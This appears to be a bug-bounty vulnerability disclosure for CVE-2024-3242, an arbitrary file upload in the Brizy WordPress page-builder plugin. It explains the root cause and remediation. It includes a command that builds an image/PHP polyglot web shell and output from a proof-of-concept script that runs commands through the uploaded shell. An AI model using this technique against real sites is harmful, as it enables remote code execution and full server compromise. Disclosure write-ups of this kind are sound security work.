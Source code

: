 # Post Report Info

- Link: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/brizy/brizy-page-builder-2444-authenticated-contributor-arbitrary-file-upload
- CVE: 2024-3242
- Bounty: $469

# Brizy – Page Builder Authenticated (Contributor+) Arbitrary File Upload

The Brizy – Page Builder WordPress Plugin is vulnerable to a contributor level authenticated arbitrary file upload when importing a new block by uploading a zip file. There is insufficient file validation, allowing for PHP files to be uploaded providing they are also valid image files.

## Affected Plugin

* **Title**: Brizy – Page Builder
* **Active installations**: 80k
* **Version**: <= 2.4.41
* **Slug**: brizy
* **Link**: https://wordpress.org/plugins/brizy/

## Root Cause

This vulnerability is possible because contributor level users can by default upload zip files that are unpacked to add blocks. These blocks can contain a list of images, that are not properly validated allowing for the upload of arbitrary files including a PHP shell. 

In [editor/zip/archiver.php](https://plugins.trac.wordpress.org/browser/brizy/trunk/editor/zip/archiver.php#L264) in the function `storeImages`, the filename is obtained from the zip file (using basename of the path), this is then used on in `file_put_contents` without checking the file extension, as can be seen in the snippet below:

```php
$basename = basename($path);
$imageContent = $z->getFromName($path);

if (!$this->validateImageContent($basename, $imageContent)) {
    continue;
}

$original_asset_path = $urlBuilder->page_upload_path("/assets/images/".$basename);
$original_asset_path_relative = $urlBuilder->page_upload_relative_path("/assets/images/".$basename);
wp_mkdir_p(dirname($original_asset_path));
file_put_contents($original_asset_path, $imageContent);
```

There is an attempt to protect against this, by validating the image type. In [editor/zip/archiver.php](https://plugins.trac.wordpress.org/browser/brizy/trunk/editor/zip/archiver.php#L547) the function `validateImageContent` is used to ensure that the uploaded file is a valid image file.

```php
private function validateImageContent($name, $content)
{
    $tempName = get_temp_dir().md5($name);
    file_put_contents($tempName, $content);
    $isImage = file_is_valid_image($tempName);
    unlink($tempName);

    return $isImage;
}
```

However, it is trivial to create a valid image file that is also a valid PHP file and because there is no file name check we can create images with `.php` extensions. For example, the following shell command will take a valid image and a valid php file and combine them into a single file that will pass this check (jpg images are valid with junk added to the end, PHP inside exif data would also have worked):

```shell
cat image.jpg code.php > shell.php
```

## Impact

The vulnerability allows any contributor or high-level user to execute arbitrary commands on the host system, leading to a complete breach. This results in a total compromise of the system's confidentiality, integrity, and availability. Such an exploit can grant unauthorized access to sensitive data, alter or delete critical information, and disrupt service operations. The severity of this impact underscores the urgent need for prompt remediation to prevent potential exploitation and to safeguard the system and its data.

## Remediation

- Restrict the file extensions that uploaded images can have. Where possible use built-in WordPress to hand this uploading rather than rolling your own, as they have additional protection already.

## Proof of Concept

1. Install and activate the plugin
2. Modify the provided PoC (`brizy-rce2.py`) with the username/password of a contributor level user. Note that this script will upload the zip file `exploit.zip` which is created by zipping the `uJ4WvfXuHyL8` folder. This folder contains a `data.json` file that contains the block information and `shell.php` a valid image file that is also a shell.
3. Run the PoC script `python3 brizy-rce2.py`. The shell will be uploaded to a path like `/var/www/html/wp-content/uploads/brizy/15/assets/images/shell.php` (the script will try to guess the id (`15` in this example) and the output should look like the following:

```
❯ python3 brizy-rce2.py
[+] Login Successful
[+] Nonce d3afb16f8a
[+] Version 279-wp
[+] Uploading zip
{'success': True, 'data': {'success': [{'uid': '7afa8300d36b7a117644a7640ad072b3', 'status': 'publish', 'dataVersion': 1, 'data': '{"type":"Section","value":{"_styles":["section"],"items":[{"type":"SectionItem","value":{"_styles":["section-item"],"items":[{"type":"Wrapper","value":{"_styles":["wrapper","wrapper--richText"],"items":[{"type":"RichText","value":{"_styles":["richText"],"linkSource":"page","linkType":"page","_id":"tkXfOxljiVdS","_version":2,"text":"<p>Hello text</p>"}}],"_id":"lFEBoDOomnJS"}},{"type":"Cloneable","value":{"_styles":["wrapper-clone","wrapper-clone--button"],"items":[{"type":"Button","value":{"_styles":["button"],"linkSource":"page","linkType":"page","_id":"kOV1swiqlypR"}}],"_id":"krcoXYDy4Ozf"}},{"type":"Wrapper","value":{"_styles":["wrapper","wrapper--embedCode"],"items":[{"type":"EmbedCode","value":{"_styles":["embedCode"],"_id":"wjr3pLVOoJIP","code":"<script>alert(1)</script>"}}],"_id":"rRhh2CSiCwBg"}}],"_id":"xPgvR7WPlXs_","paddingType":"ungrouped","paddingTop":74}},{"type":"SectionItem","value":{"_styles":["section-item"],"items":[{"type":"Wrapper","value":{"_styles":["wrapper","wrapper--richText"],"items":[{"type":"RichText","value":{"_styles":["richText"],"linkSource":"page","linkType":"page","_id":"xk0lPqOgoKMI","_version":2,"text":"<p>Hello text</p>"}}],"_id":"sVZkRKXZqiyW"}},{"type":"Cloneable","value":{"_styles":["wrapper-clone","wrapper-clone--button"],"items":[{"type":"Button","value":{"_styles":["button"],"linkSource":"page","linkType":"page","_id":"myK8i70KJ9NE"}}],"_id":"vvZ2Ti1MfK6L"}}],"_id":"aR0SIYUrmMsJ","paddingType":"ungrouped","paddingTop":74}}],"_id":"cPGOG2fks9Kc","membership":"off","slider":"on"},"blockId":"Kit2Blank000Light","meta":{"_thumbnailSrc":"https://e-t-cloud.b-cdn.net/1.3.3-beta2/kits/thumbs/Kit2Blank000Light.jpg","_thumbnailWidth":600,"_thumbnailHeight":311}}', 'meta': '{"extraFontStyles":[],"type":"normal","_thumbnailSrc":"lwgfgotmlvklzbmkgbqxyszxqrgnongx","_thumbnailWidth":600,"_thumbnailHeight":109,"_thumbnailTime":1706896160571}', 'title': '', 'tags': '', 'author': '4', 'isCloudEntity': False, 'synchronized': False, 'synchronizable': True}], 'errors': []}}
[?] Finding Shell:
[+] Shell: id
└─ uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Shell: /wp-content/uploads/brizy/15/assets/images/shell.php?cmd=id
[+] Testing Shell:
[+] Shell: id
└─ uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Shell: pwd
└─ /var/www/html/wp-content/uploads/brizy/15/assets/images
```